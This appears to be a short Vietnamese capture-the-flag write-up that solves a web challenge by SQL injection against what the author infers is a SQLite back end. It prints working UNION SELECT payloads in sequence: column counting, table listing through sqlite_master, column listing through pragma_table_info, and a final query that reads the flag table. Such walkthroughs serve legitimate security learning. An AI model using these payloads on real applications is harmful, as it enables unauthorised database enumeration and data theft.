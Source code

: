 = Khi test thử `'UNION SELECT 1,2,3,4-- -` thấy phản hồi lỗi khác số cột 

=> Lỗi SQL Injection.
<img width="870" height="142" alt="image" src="https://github.com/user-attachments/assets/67213866-a9dd-4157-90fa-50b2bf18a6ca" />

= Thử lại thì thấy có 3 cột là thỏa mãn:

<img width="657" height="162" alt="image" src="https://github.com/user-attachments/assets/34200950-703a-43ad-96a6-a7aa048eb6b4" />

= Thử lần đầu với CSDL kiểu `MySQL` `'UNION Select 1,table_name,3 from information_schema.tables where table_schema=database()-- -` thì thấy có lỗi `not such information_schema.tables` 

=> Có lẽ CSDL sử dụng SQLite.

= Thử lại với SQLite: 
`'UNION SELECT 1,2,tbl_name from sqlite_master where type='table' and tbl_name not like 'sqlite_%'-- -` thì thấy có kết quả trả về:

<img width="552" height="86" alt="image" src="https://github.com/user-attachments/assets/0e149101-9b39-4bce-9fdf-f7ba3cec863d" />

=> Nghĩa là có bảng `flag_..` được nhúng vào `address`. Giờ trích xuất các cột trong bảng này:

`'union select 1,2,name from pragma_table_info('flag_yFs2i')-- -`

<img width="542" height="46" alt="image" src="https://github.com/user-attachments/assets/a672e67b-1dc8-46f5-83e3-44524d414c4d" />

= Sử dụng câu lệnh xem flag: `'union select 1,2,flag from flag_yFs2i-- -`

<img width="960" height="62" alt="image" src="https://github.com/user-attachments/assets/a4c6d644-8422-445a-b4da-7f0aecd3c401" />

=> Vậy đã done :>

